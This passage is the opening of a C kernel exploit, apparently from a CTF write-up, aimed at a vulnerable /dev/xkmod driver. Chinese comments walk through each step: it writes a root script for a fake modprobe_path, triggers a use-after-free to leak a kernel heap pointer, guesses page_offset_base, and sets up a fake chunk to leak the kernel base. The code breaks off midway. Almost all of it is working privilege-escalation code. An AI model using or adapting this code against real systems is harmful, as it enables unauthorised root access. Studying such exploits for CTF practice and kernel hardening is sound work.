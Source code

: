 ```c
    int root_script_fd;
    size_t kernel_heap_leak;
    size_t page_offset_base;
    char flag[0x50];
    int flag_fd;

    bind_core(0);
    save_status();

    info("Starting to exploit...");

    // 打开五个fd
    for (int i = 0; i < 5; i++)
    {
        dev_fd[i] = open("/dev/xkmod", O_RDONLY);
        if (dev_fd[i] == -1)
        {
            err_exit("Failed to open /dev/xkmod.");
        }
    }

    /**
     * Step0: 创建fake modprobe_path
     */
    root_script_fd = open(ROOT_SCRIPT_PATH, O_RDWR | O_CREAT, 777);
    if (root_script_fd == -1)
    {
        err_exit("Failed to create root_script.");
    }
    write(root_script_fd, root_cmd, sizeof(root_cmd));
    close(root_script_fd);
    system("chmod +x " ROOT_SCRIPT_PATH);
    success("Finished writing root_script to " ROOT_SCRIPT_PATH);

    /**
     * Step1: 泄露内核基地址
     */

    // 申请一块内存备用
    // size_t *buf = (size_t*)malloc(0x1000 * sizeof(size_t));
    book data;
    data.content = malloc(0x1000);
    data.offset = 0;
    data.size = 0x50;

    // 申请一个obj，随后释放到freelist
    note_add(dev_fd[0], &data);
    note_read(dev_fd[0], &data);
    close(dev_fd[0]);

    // 程序里全局变量指针指向的空间已经被释放了，我们将其读出来读到buf
    note_write(dev_fd[1], &data);
    kernel_heap_leak = data.content[0];

    // 猜测堆地址
    page_offset_base = kernel_heap_leak & 0xfffffffff0000000;

    info("kernel_heap_leak is 0x%llx.", kernel_heap_leak);
    info("Guessing page_offet_base: 0x%llx.", page_offset_base);

    info("Since, try to alloc fake chunk at page_offset_base + 0x9d000 - 0x10 to leak kernel base...");

```